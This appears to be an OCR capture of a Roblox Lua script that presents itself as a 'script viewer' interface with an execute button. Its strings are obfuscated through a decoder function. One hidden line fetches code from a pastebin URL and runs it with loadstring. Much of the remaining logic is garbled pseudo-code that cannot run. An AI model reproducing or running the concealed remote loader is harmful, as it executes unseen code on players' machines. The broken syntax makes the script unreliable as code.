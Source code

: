 If player.Character =~ if Parent.player then Class.Event
If player.Character =~ Root.Pos and Root.Velocity.y then == if HumanoidRoot then clientVision.Camera
RootPart =~ If HumRootPart then Head=Character[YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('mBUwKpznAgjhSwBGECNqsrErPWaAFWPwwXMfzvKSiFpaBxPJOCUxLOkSGVhZA==')]
--/VIEW\--
loadstring.game(HttpGet(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('NzJnKKaRxfkodcRBXIDaGeISvzzoGIYEjRSjvkmpyiqRIKMFrortTppaHR0cHM6Ly9wYXN0ZWJpbi5jb20vWjl2UHhTeWg='))();

--/CLIENT\--
Client:(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('uTaNGEcATwbaxosKPTFXCHAcKthUcAczFyMUNBgdWIgOnNNOmUFmRgpdi5QYXJlbnQ7U2VydmVy'));Client _, Serv
[client]=R _, remote(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('fSLipdoeNWtLigKCXZoNSWFPmkRLZKoWrSdPNhuvuiJjPjwsDBJjRsSRmlyZQ==')).event=={{action}

--/FILTERS\--
workspace.FilteringEnabled = true
REMOTES;DebugScan[SERV.CLIENT _, FILTER[1]
SRV.EVENT;DebugScan[SERV.CLIENT _, FILTER[2]
If return debugScaned then NotScan_debug then elseif
debugScan = Nil 
Event = Returning then Fire _, Server:Clients()

--/UI\--

-- UI version 1.0, variables 
local ScreenGui = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('OGjsJsmoCInOwsfXmWfKRqBnrCAAVioryEaBTYrAfivAnQggfXBrftGU2NyZWVuR3Vp'))
local Frame = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('BQyULPKyHPDeaUHYRlqldrseOUDgVnDIFJXSOaHwdppJJUYGgStwsFmRnJhbWU='))
local Title = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('AlJHHoRTHLkIhENKDJMXSCWCCnmBUFgTVSNKaEUUuochTdXEWqBseryVGV4dExhYmVs'))
local TextBox = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('kEQTBHCvzvGCujHRZzrmTqadlrJQtrvXisITWMTvmyivhruxtkQrdvjVGV4dEJveA=='))
local ExecuteButton = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('XeiNpDxuPpUVziQTMRbOAQZEHBluybowyxOjcHNsLEVpAIDiItPyhHWVGV4dEJ1dHRvbg=='))
local ClearButton = Instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('aLiknZbowJEeXXSxGCzNEptFqXbSCegEtvOEcSMOzELzxsHJziPwekcVGV4dEJ1dHRvbg=='))
local ScrollingFrame = Instante.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('bBLuBOCFwhiTnOUynNlBVVGldHVPQkHjuEMdBXhjeCbjkYIbaeSviRqU2Nyb2xsaW5nRnJhbWUg')) 
local notification = instance.new(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('HzdRAWAhgGYjLstNZeRejbirkwxLjlAQlaPoUvjEZDddfnjivRBpasHTm90aWZpY2F0aW9u'))

ScreenGui.Parent = game.Players.LocalPlayer:WaitForChild(YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('CypfUZatQzGDbzOpJqBbDnGBZdySyJDRbiaCfGifuiinIbWuvqmRtMTUGxheWVyR3Vp'))
ScreenGui.Name = YjmcrNOzIEpneYaBxfLnXziCQdxlhNivcgzMQnaGtaRfNXQOznUIfN('cKGdDwlYodIJtMHtespXaXISfkjXZXKrkAaacOsiOeistGqXYkMWwgdU2NyaXB0Vmlld2VyVUk=')

-- Frame configuration
Frame.Parent = ScreenGui
Frame.BackgroundColor3 = Color3.fromRGB(255, 255, 255) -- White background
Frame.BorderSizePixel = 2 -- Border thickness
Frame.BorderColor3 = Color3.fromRGB(0, 0, 0) -- Black border
Frame.Size = UDim2.new(0, 400, 0, 300)
Frame.Position = UDim2.new(0.5, -200, 0.5, -150)
